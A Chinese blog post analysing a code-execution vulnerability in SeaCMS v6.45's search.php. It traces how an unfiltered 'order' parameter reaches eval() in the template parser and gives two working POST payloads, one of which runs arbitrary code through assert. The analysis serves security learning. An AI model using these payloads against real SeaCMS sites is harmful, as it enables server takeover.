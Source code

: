 ```yaml
---
title: SeaCMS v6.45前台代码执行漏洞分析
date: 2018-08-06 23:13:22
tags:
	- 代码审计
	- 代码执行
---
```


SeaCMS没有使用框架，比较适合练习。

<!-- more -->

### 1. 源码下载

```
链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw

密码：cd48
```

### 2. POC

第一种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

第二种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)print_r($_POST[a]($_POST[b]));//}{end if}&a=assert&b=phpinfo();
```

效果图

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/49244924.jpg)

### 3. 漏洞原理分析

#### 3.1 代码执行简单流程

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/81792070.jpg)

#### 3.2 详细分析

代码执行的原因是`$order`参数没做严格的限制，就将其传入了模板文件中，然后使用`eval()`执行模板中包含`$order`的代码。

 首先，在文件`seacms/search.php`中，包含了文件`seacms/include/common.php`,在`common.php`中第45-48行，将GET,POST等请求传入的全局变量中的键值对转换成变量，并对其中的值使用`addslashes()`进行处理。

```php
function _RunMagicQuotes(&$svar)
{
	if(!get_magic_quotes_gpc())
	{
		if( is_array($svar) )
		{
			foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
		}
		else
		{
			$svar = addslashes($svar); # 转义单引号、双引号、反斜线、NULL
		}
	}
	return $svar;
}
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

然后在`seacms/search.php`文件的`echoSearchPage()`函数中，也就是文件第63行，将变量注册成全局变量。

```php
global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
```

可以看到，在`search.php`中，执行`echoSearchPage()`函数之前，没有对`$order`变量进行处理。

接着往下看，在`echoSearchPage()`函数中，使用`$searchtype`来选择使用的模板文件。

```php
if(intval($searchtype)==5)
	{
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/cascade.html";
		$typeStr = !empty($tid)?intval($tid).'_':'0_';
		$yearStr = !empty($year)?PinYin($year).'_':'0_';
		$letterStr = !empty($letter)?$letter.'_':'0_';
		$areaStr = !empty($area)?PinYin($area).'_':'0_';
		$orderStr = !empty($order)?$order.'_':'0_';
		$jqStr = !empty($jq)?$jq.'_':'0_';
		$cacheName="parse_cascade_".$typeStr.$yearStr.$letterStr.$areaStr.$orderStr;
		$pSize = getPageSizeOnCache($searchTemplatePath,"cascade","");
	}else
	{
		if($cfg_search_time&&$page==1) checkSearchTimes($cfg_search_time);
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/search.html";
		$cacheName="parse_search_";
		$pSize = getPageSizeOnCache($searchTemplatePath,"search","");
	}
```

当值是5时，会使用`cascade.html`，文件目录为`seacms\templets\default\html\cascade.html`，若不是，则会使用`earch.html`，文件目录为`seacms\templets\default\html\search.html`。

下面153行，将模板文件读取到`$content`变量中，接着在155-173行替换标签。其中第158行使用`$order`替换了模板中`{searchpage:ordername}`标签。然后分别搜索`search.html`和`cascade.html`，只有`cascade.html`第79-81行存在该标签。

```php+HTML
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
<a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
<a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

因此，必须要`$searchtype==5`。

接着往下走，在第212行

```p&#39;h&#39;p
$content=$mainClassObj->parseIf($content);
```

跟进去，在`seacms\include\main.class.php`中第3098-3147行中。

```php
function parseIf($content)
{
    if (strpos($content, '{if:') === false) {
        return $content;
    } else {
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}", "is");
        $labelRule2 = "{elseif";
        $labelRule3 = "{else}";
        preg_match_all($labelRule, $content, $iar);
        $arlen = count($iar[0]);
        $elseIfFlag = false;
        for ($m = 0; $m < $arlen; $m++) {
            $strIf = $iar[1][$m];
            $strIf = $this->parseStrIf($strIf);
            $strThen = $iar[2][$m];
            $strThen = $this->parseSubIf($strThen);
            if (strpos($strThen, $labelRule2) === false) {
                if (strpos($strThen, $labelRule3) >= 0) {
                    $elsearray = explode($labelRule3, $strThen);
                    $strThen1 = $elsearray[0];
                    $strElse1 = $elsearray[1];
                    @eval("if(" . $strIf . "){\$ifFlag=true;}else{\$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen1, $content);
                    } else {
                        $content = str_replace($iar[0][$m], $strElse1, $content);
                    }
                } else {
                    @eval("if(" . $strIf . ") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen, $content);
                    } else {
                        $content = str_replace($iar[0][$m], "", $content);
                    }
                }
            } else {
                $elseIfArray = explode($labelRule2, $strThen);
                $elseIfArrayLen = count($elseIfArray);
                $elseIfSubArray = explode($labelRule3, $elseIfArray[$elseIfArrayLen - 1]);
                $resultStr = $elseIfSubArray[1];
                $elseIfArraystr0 = addslashes($elseIfArray[0]);
                @eval("if({$strIf}){\$resultStr=\"{$elseIfArraystr0}\";}");
                for ($elseIfLen = 1; $elseIfLen < $elseIfArrayLen; $elseIfLen++) {
                    $strElseIf = getSubStrByFromAndEnd($elseIfArray[$elseIfLen], ":", "}", "");
                    $strElseIf = $this->parseStrIf($strElseIf);
                    $strElseIfThen = addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen], "}", "", "start"));
                    @eval("if(" . $strElseIf . "){\$resultStr=\"{$strElseIfThen}\";}");
                    @eval("if(" . $strElseIf . "){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                    if ($elseIfFlag) {
                        break;
                    }
                }
                $strElseIf0 = getSubStrByFromAndEnd($elseIfSubArray[0], ":", "}", "");
                $strElseIfThen0 = addslashes(getSubStrByFromAndEnd($elseIfSubArray[0], "}", "", "start"));
                if (strpos($strElseIf0, '==') === false && strpos($strElseIf0, '=') > 0) {
                    $strElseIf0 = str_replace('=', '==', $strElseIf0);
                }
                @eval("if(" . $strElseIf0 . "){\$resultStr=\"{$strElseIfThen0}\";\$elseIfFlag=true;}");
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

可以看到下面存在`eval()`函数来执行代码，要想进入到`eval()`，`$content`中必须含有`{if:`字符串。

然后是正则，

```php
$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
preg_match_all($labelRule,$content,$iar);
```

看代码执行流程，在`eval()`函数中，`$strIf`就是之前`preg_match_all()`中第一个`(.*?)`匹配出来的值。

```php
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

在`eval()`中，要闭合前面的if语句，可以构造`1)phpinfo();if(1`，又要符合正则`{if:(.*?)}(.*?){end if}`，再看标签：

```php+HTML
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
```

由于`$order`替换的是`{searchpage:ordername}`，所以，在`1)phpinfo();if(1`基础上添加。

```php+HTML
}{end if}{if:1)phpinfo();if(1}{end if}
```

漏洞利用的基本流程就是这样，简单来说，就是有个可控的变量没有经过过滤，就被带入了`eval()`中，导致了代码执行。

###  4. 参考

[SeaCMS v6.45前台Getshell 代码执行 ](https://github.com/SecWiki/CMS-Hunter/tree/master/seacms/SeaCMS%20v6.45%E5%89%8D%E5%8F%B0Getshell%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)